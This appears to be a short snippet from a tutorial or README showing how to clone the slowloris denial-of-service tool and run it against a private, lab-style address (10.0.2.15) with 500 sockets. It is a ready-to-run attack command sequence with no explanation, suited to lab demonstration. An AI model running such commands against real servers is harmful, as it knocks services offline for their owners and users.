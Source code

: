 ```sh
git clone https://github.com/gkbrk/slowloris.git
```

```sh
cd slowloris
```

```python
python3 slowloris.py 10.0.2.15 -s 500
```
